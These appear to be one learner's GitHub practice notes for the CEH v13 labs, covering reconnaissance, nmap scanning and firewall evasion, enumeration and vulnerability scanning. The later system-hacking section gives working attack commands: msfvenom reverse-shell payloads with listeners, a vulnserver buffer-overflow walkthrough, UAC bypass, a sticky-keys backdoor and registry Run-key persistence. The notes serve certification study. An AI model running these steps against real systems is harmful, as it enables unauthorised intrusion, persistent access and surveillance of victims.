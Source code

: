 # CEH-practice-notes
# Reconnasiance/Footprinting
<details>
  <summary>To find the subdomain</summary>

* nmap to find subdomain
```console
:~$ nmap -p 53 --script dns-brute <domain>
``` 
* google
```console
  :~$ site:example.com -inurl:www
```
* sublist3r
```console
  :~$ sublist3r -d example.com -o sublist3r_subs.txt
```
* some research websites
```console
  :~$ netcraft
      DNS dumpster
      pentest-tools.com
      SHODAN
```
* Collects open-source intelligence (OSINT) about domains, IPs, hosts, and people
```console
  :~$ recon-ng
  ```  
</details>

<details>

  <summary>social media recon by using sherlock</summary>

* sherlock
```console
:~$ sherlock "user name"
```
</details>

<details>

 <summary>Whois lookup</summary>

 * domaintools 
 (gives info regard a owner ph no and email)
 ```console
:~$ https://whois.domaintools.com
```

* nslookup(DNS lookup) <#windows>
```console
:~$nslookup
set type = a
( a >> configures nslookup to query for the IP address of a given domain.)
(shows non authorative result but we need authorative name so)

set type=cname
cnmae >>  lookup is done directly against the domain's authoritative name server 

set type=a
and get the name server ip

```
* nslookup website
```console
:~$ http://www.kloth.net/services/nslookup.php
```
</details>

<details>

 <summary>to trace a email</summary>

* Email tracker pro
```console
:~$ Install email tracker pro from the directory of a lab 
    and copy down the email header you want to track
```

</details>


<details>

 <summary>network footprinting</summary>

* tracert<#windows> traceroute<#linux>(helps in mapping the nw hosts)
```console
:~$ tracert www.target.com
tracert /? (help)
tracert -h 5 www.target.com
(-h > number of hopes)
```
* traceroute(linux)
```console
:~$ traceroute www.targetdomain.com
(to check ip)whois [ip]
```
</details>

<details>
<summary>recon-ng</summary>

* recon-ng 
```console
:~$recon-ng
   help
   marketplace install all

  (then to create workspace)
  workspace create CEH
  wrokspace list
  ```
  * To add the domain to workspaces
  ```console
  :~$ (help  for options)
  db insert domains(take you to the workspace interface)
  1.certifiedhacker.com
  2.hit enter
  show domains
  ```
* To search and load modules
```console
:~$ modules load brute (to get host related to target domain)
  modules load (desired modules for brute)
  run
  back

  modules load reverse_resolve
  modules load(desired module)
  show hosts(shows all hosts which is harvested)
```
* then to reporting
```console
:~$ modules load reporting
  modules load reporting/html
  options list(list options)
  options set FILENAME
              CUSTOMERNAME
              CREATOR
```
* then to get the contact of the domain
```console
:~$ modules load whois_pocs
  command info(to see a module interface,to set data)
  options set SOURCE facebook.com
  run

```
* to extract subdomains and IP
```console
:~$ module load recon/domains-hosts/hackertarget
options list
options set SOURCE certifiedhacker.com
run
```
</details>

<details>
<summary>recon by AI</summary>

* reconniassance with AI
```console
:~$sgpt --chat recon --shell "t organization. To do so, run sgpt --chat footprint --shell "Use theHarvester to gather email accounts associated with 'microsoft.com', limiting results to 200, and leveraging 'baidu' as a data source"
```
</details>

<details>
<summary>BillCipher</summary>

* Use this tool to get passive info of many details of org
```console
:~$sudo apt update && sudo apt install ruby python python-pip python3 python3-pip
sudo apt install httrack whatweb
git clone https://github.com/GitHackTools/BillCipher
cd BillCipher
pip install -r requirements.txt
pip3 install -r requirements.txt
python3 billcipher.py
```
</details>







# Scanning Networks
<details>
<summary>Host discovery</summary>

* Host discovery by
ARP ping scan
UDP ping scan
ICMP ping scan (ICMP ECHO ping, ICMP timestamp, ping ICMP, and address mask ping)
TCP ping scan (TCP SYN ping and TCP ACK ping)
IP protocol ping scan

```console
:~$ nmap -sn -PR [target ip]

-sn>>no port scan
-PR>>arp ping scan
```
* UDP ping scan
```console
:~$ nmap -sn -PU [target IP]
-PU>>UDP scan
```
* ICMP echo ping scan
```console
:~$ nmap -sn -PE [IP address]
PE>>ICMP echo ping scan
```
* ICMP ping sweep 
``` console
:~$ nmap -sn -PE [Range of IP address]
```
* ICMP timestamp ping scan
```console
:~$ nmap -sn -PP [IP address]
-PP>>timestamp ping scan
```
* Other scanning technique
```console
:~$nmap -sn -PM [ip address]
PM>>ICMP address mask ping scan

#########################################
nmap -sn -PS [target ip]
PS>>TCP SYN Ping Scan
#########################################
nmap -sn -PA [target ip]
-PA>>TCP ACK Ping Scan
########################################
nmap -sn -PO [ip address]
-PO>>IP Protocol Ping Scan(sends every protocols and send back the response)
```
</details>
<details>

<summary>Port and service discovery</summary>

* here using zenmap
```console
:~$ nmap -sT -v [target ip]
-sT>>TCP connect/full open scan
-v>>verbose
```
* To scan firewall enabled machine(bypass firewall)
```console
:~$nmap -sS -v [ip address]
-sS>>stealth scan
```
* xmass scan (sends urg psh fin)
```console
:~$nmap -sX -v [ip address]
-sX>>xmas scan
```
* maimon scan (ack+fin)
```console
:~$ nmap -sM -v [ip address]
-sM>>maimon scan
```
* by ACk flag
```console
:~$ nmap -sA -v [ip address]
-sA>>ack probe scan
```
* UDP scan (firewall is off)
```console
:~$nmap -sU -v [ip address]
-sU>>UDP scan
```
* other port and application scanning meathods
```console
:~$nmap -sI -v [target IP address]
-sI>>IDLE/IPID Header Scan
#############################
nmap -sY -v [target IP address]
-sY>>SCTP init scan
#############################
nmap -sZ -v [target IP address]
-sZ>>SCTP COOKIE ECHO Scan
```
</details>
<details>
<summary>Version scan/agressive scan</summary>

* version
```console
:~$nmap -sV [ip address]
-sV>>version scan
##############################
nmap -A 10.10.1.* (* do all subnet scan)
-A>>agressive scan
(performs -sV -O -sC(script scanning) --traceroute)
```
</details>
<details>
<summary>OS discovery</summary>

* os discovery using nmap script engine(NSE)>>using -O -A NSE
```console
:~$nmap --script smb-os-discovery.nse [ip address]
```
</details>

<details>
<summary>Scan beyond the IDS & firewll</summary>

* By fragmenting the packet

```console
:~$ nmap -f [ip address]
-f>>fragment

```
* Source port manipulation
```console
:~$ nmap -g 80 [ip address]
-g ,--source-port >> source port manipulation
```
* MTU(maximum transmission unit)
```console
:~$ nmap -mtu 8 [ip adress]
-mtu>>maximum transmision unit(which is send smaller data packets 8 bytes)
```
* Decoy(random ip adress)
```console
:~$ nmap -D RND:10 [ip address]
-D>>decoy
RND>>random ip count
```
* MAC spoofing
```console
:~$ nmap -sT -Pn --spoof-mac 0 [ip address]
-sT>>TCP full scan
-Pn>>no host discovery
--spoof-mac 0>>gives legitimate mac address in the network
```
</details>
<details>
<summary>Scan a target network using metasploit</summary>
```console
:~$ open the msfconsole
nmap -sP -sS -A -oX test [ip/24](subnetmask)
-oX>>output to xmp file names test
```

* by metasploit madules
```console
:~$ search port scan (shows all module related to port scan)
use auxilary/scanner/portscan/syn
show options and set values
run
###############################
same scanned for TCP (same module with tcp at last)
set target ip(RHOSTS)

#found 445 open port so scanning smb version
use auxilary/scanner/smb/smb_version 
set RHOSTS [ip range]
threads 11

```
</details>
<details>
<summary>Scanning network using sgpt</summary>

```console
:~$ sgpt --chat scan --shell "prompt (by using HPING3")
```

</details>





# Enumeration
<details>
<summary>Netbios enumeration</summary>

* nbtstat

```console
:~$ nbtstat -a [ip address]
-a>>displays the NetBIOS name table of a remote computer.



nbtstat -c 
-c>> displays the cashe of netbios



net use
>>shows active connection
```

</details>

<details>

<summary>SNMP enumeration using tools</summary>

* SnmpWalk]
```console
:~$ snmpwalk -v1 -c public <Ip address>
-v1>>version of snmp
-c>>community string(public/private)

#for v2 snmp

snmpwalk -v2c -c public <ipaddress>
-v2c>>version
```
</details>

<details>
<summary>LDAP enumaration</summary>

* By using AD explorer
```console
:~$open exe file in explorer
```
</details>
<details>
<summary>NFS enumeration</summary>

* by using nmap
```console
:~$ nmap -p 2049 [ip addr] 
-p>> to specify port

to check target is NFS is enabled or not
(to enable it in target device use server manager)


than open super enum tool 
create a file included target ip as Target.txt
#echo "target ip" >> target.txt
 next

./superenum

(If you get an error running the ./superenum script, execute chmod +x superenum command, then repeat Step#13.)
```

* by RPCScan
```console
:~$ cd RPCScan
python3 rpc-scan.py [Target IP address] --rpc
--rpc>> lists the RPC (portmapper)
```
</details>
<details>
<summary>DNS enumeration using zone transfer</summary>

* By using dig command
```console
:~$ dig ns [target domain]
ns>>shows the name server
```
* To check it has zone transfer or not
```console
:~$ dig @ [name server] [target domain] axfr
axfr >> retrives zone transfer info
```
* By using nslookup
```console
:~$ nslookup
set querytype=soa

soa>>sets the query type to SOA (Start of Authority) record to retrieve administrative information about the DNS zone of the target domain certifiedhacker.com.

then in interactive mode

ls -d [name server]
## this command checks is domain supoort zone tarnsfer or not
```
</details>

<details>
<summary>SMTP enumeration</summary>

* Usimg nmap
```console
:~$ nmap -p 25 --script=smtp-enum-users [ip]
##shows all the mail users
## to check the script >> nmap --script-help 'http-*' | less


nmap -p 25 --script=smtp-open-relay [target IP]    

```
</details>

# Vulnerability Analysis
<details>

<summary>Research on CWE (common weakness enumeration)</summary>

* Research CWE website
```console
:~$ cwe.mitre.org
aslo can check access content >> cwe list
```
</details>
<details>
<summary>OpenVAS</summary>

* Vulnerability analysis using OpenVAS
```console
:~$ to open OPENVAS 
parrot cmd >> 
docker run -d -p 443:443 --name openvas mikesplain/openvas
then http://127.0.0.1
passward:admin admin
```
</details>
<details>
<summary>Using AI </summary>

* Perform Vulnerability Analysis using AI
```console
:~$ sgpt --chat nikto --shell "Scan the URL https://www.certifiedhacker.com to identify potential vulnerabilities with nikto"


 sgpt --chat vuln --shell "Perform vulnerability scan on target url http://www.moviescope.com with Nmap with port 80"

 ```

 ## by using skipfish (website)
 ```console
 :~$ sgpt --chat vuln --shell "Perform a vulnerability scan on target url http://testphp.vulnweb.com with skipfish" 
 open the saved html file with browser
 ```

</details>

# System Hacking
<details>

<summary>Crack the password using responder</summary>

* cmd to run responder
```console
~$:sudo responder -I eth0
-I>>interface

in target system run bar \\CEH-Tools
and in parrot copy the capture hash availed in responder
and in another sudo terminal
pluma hash.txt n copy it here
```
//then decript using john
```console
~$:john hash.txt
```
</details>
<details>
<summary>Access remote system using Reverse shell generator</summary>

* Enable reverse shell
```console
~$:docker run -d -p 80:80 reverse_shell_generator
```
* firefox >> http://localhost
```console
~$:In the IP field, type [attacker sys ip] as listener IP and in the Port field, type 4444 as listener port.

and copy the msfvenom cmd in the same window and paste it in cmd (windows meterpreter reverse TCP)

We will start a listener using Reverse Shell Generator, to do so, switch to the browser window and select msfconsole as Type from the drop-down under Listener.
and copy the code >> paste it in cmd >> listner will start

In attacker system go to file (ctrl L) and type smb://10.10.1.11 to get win 11 files 
Navigate to CEHv13 Module 06 System Hacking and paste the copied reverse.exe file.

in victm machine navigate to CEH tool and copy the reverse.exe and copy it to desktop
double click it (exe)

```

* After session created
```console
~$: getuid (to get the user details)
```

* Now by powershell script
```console
~$: in firefox reverse shell page select PowerShell IEX and change port to 444 and copy the code

and in new su cmd 
pluma shell.ps1 and copy the code and save

and now we have to create a hoaxshell listner for that
back to reverseshell browser window and input 444 as port and select hoaxshell
copy paste it in cmd and enter


now copy the shell file wee created and paste it in wind 11 cehtool folder by smb://10.10.1.11
in winn 11 navigate to this file and paste it in win 11 desktop
```

* open powershell as a admin
then type
```console
~$: cd C:\Users\Admin\Desktop
and run .\"filename"
>>to run a file in victim machine
```
</details>
<details>
<summary>Perform Buffer Overflow Attack to Gain Access to a Remote System</summary>

* download vulnserver from module6 file and run
* and also install immunity debugger and run it as admin
```console
~$:click file in the menu bar
and click attach n attach the vulnserver
then run it (play button at top)
```
* shift to parrot
```console
~$:nc -nv 10.10.1.11 9999
-n >> dont try to resolve hostname with dns, use the ip exactly as given

type HELP
```
* Generate spike template and performing spiking
//to create a spike template on STATS function
```console

~$: pluma stats.spk and type the following cmd

s_readline();

s_string("STATS ");

s_string_variable("0");
```
* to send the package to vulberable server
```console
~$: generic_send_tcp 10.10.1.11 9999 stats.spk 0 0
here STATS fn is not vulnerable to bufferoverflow
```
* so we will perform TRUN function
```console
~$:pluma trun.spk
and type
s_readline();

s_string("TRUN ");

s_string_variable("0");
```
* run
```console
~$: generic_send_tcp 10.10.1.11 9999 trun.spk 0 0
```
* Now performing FUZZING
```console
~$:navigate to ceh tools and buffer over flow file copy script file and paste it in desktop
now perform python script to perform fuzzing

navigate to cd /home/attacker/Desktop/Scripts/
```
execute
```console
~$:chmod +x fuzz.py
./fuzz.py
```
* pattern create by ruby tool (in a same script file)
```console
~$:in linux cmd >> /usr/share/metasploit-framework/tools/exploit/pattern_crteate.rb -l 1040
-l>>leangth of a byte size

>>it creates some random piece of bytes
copy the characters
>>
paste it in
 pluma findoff.py (script file)
>>in bw offset ""

chmod +x findoff.py
./findoff.py
and open immunity debugger and notedown the EIP (offset value)
```
then
```console
~$: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 10400 -q (offset value)
-q>>offset value
then close the cmd window
resrart the immunity devbugger and vuln server
```
then (in script file)
```console
~$: chmod +x overwrite.py
./overwrite.py
>> to overwrite EIP
```
* by bad chars
```console
~$: chmod +x badchars.py (in script folder)
./badchars.py

>> in immunity debugger click on ESP and follow in dump option
```
* Now we have to identify the right module of the vulnerable server (mona.py)
```console
~$: navigate to E:\CEH-Tools\CEHv13 Module 06 System Hacking\Buffer Overflow Tools\Scripts, copy the mona.py script, and paste it in the location in windows 11 C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```
nxt open immunity debugger
and type !mona modules in txt field of immunity debugger
observe that essfunc.dll have no memory protection

```console
~$: in unix cmd 
python3 /home/attacker/converter.py
Enter the assembly code here : prompt appears; type JMP ESP and press Enter.

here ffe4

In the Immunity Debugger window, type !mona find -s "\xff\xe4" -m essfunc.dll and press Enter in the text field present at the bottom of the window.

the address of vulnerable module you will found in first result


 Immunity Debugger window, click the Go to address in Disassembler icon (the arrow towards right)
in pop enter the address of vulnerable module (625011af)
run debugger

and in script file
chmod +x jump.py
./jump.py
>> which over right the EIP
```
* then to generate a shell code
```console
~$: msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b "\x00"

>>Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444, -f: filetype, -a: architecture, -b: bad character.

copy the granted shellcode
and paste it in
pluma shellcode.py
add b in every line to convert string to bytes
```
then before running the command we have to create a listner by netcat
```console
~$: nc -nvlp 4444
and in script folder path
chmod +x shellcode.py
./shellcode.py
```
</details>
<details>

## Perform Privilege Escalation to Gain Higher Privileges 
<summary>Escalate privileges by bypassing UAC and exploiting Sticky Keys</summary>

* create a payload
```console
~$: msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe.

```
* create a folder in localhost in var directory
```console
~$: var >> mkdir share
Run chmod -R 755 /var/www/html/share command
Run chown -R www-data:www-data /var/www/html/share command
```
* Copy the payload into the shared folder by executing
```console
~$:cp /home/attacker/Desktop/Windows.exe /var/www/html/share/


Start the Apache server by executing service apache2 start command.
```
* Run metasploit
```console
~$: msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST<>
set LPORT <>


run the payload in victim machine
```
* now we will bypass the UAC by "FodHelper"
```console
~$:use exploit/windows/local/bypassuac_fodhelper
set session 1
set TARGET = 0
exploit
```

```console
~$: getsystem -t 1 and press Enter to elevate privileges.
```
* now using sticky keys module
```console
~$: post/windows/manage/sticky_keys
set session 2
exploit
proceed to mark user account and in lock screen hit sticky key 5 times 
whoami
```
</details>
<details>
<summary>Maintain Remote Access and Hide Malicious Activities</summary>

* User System Monitoring and Surveillance using Spyrix
```console
~$:Spyrix (GUI)
```
<summary> Maintain Persistence by Modifying Registry Run Keys</summary>

* create a payload
```console
~$: msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Test.exe
```
>payload that needs to be uploaded into the Run Registry of Windows 11
```console
~$:msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=4444 -f exe > /home/attacker/Desktop/registry.exe

cp /home/attacker/Desktop/Test.exe /var/www/html/share/ and cp /home/attacker/Desktop/registry.exe /var/www/html/share/

start the apache2
```
>run metasploit
```console
~$: msfconsole
set payload windows/meterpreter/reverse_tcp
set lhost and lport
```
* Windows UAC protection evading
```console
~$: Windows UAC protection via SilentCleanup task present in Windows Task Scheduler. It is present in Metasploit as a bypassuac_silentcleanup exploit.

use exploit/windows/local/bypassuac_silentcleanup
set session 1
set TARGET 0
exploit
getsystem -t 1 (escalate previlage)
```
>to ingect malicious file
```console
~$:reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\registry.exe"

msfconsole in another cmd
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set lport and lhost the same which is given to registry payload
 restart the victim machine
 
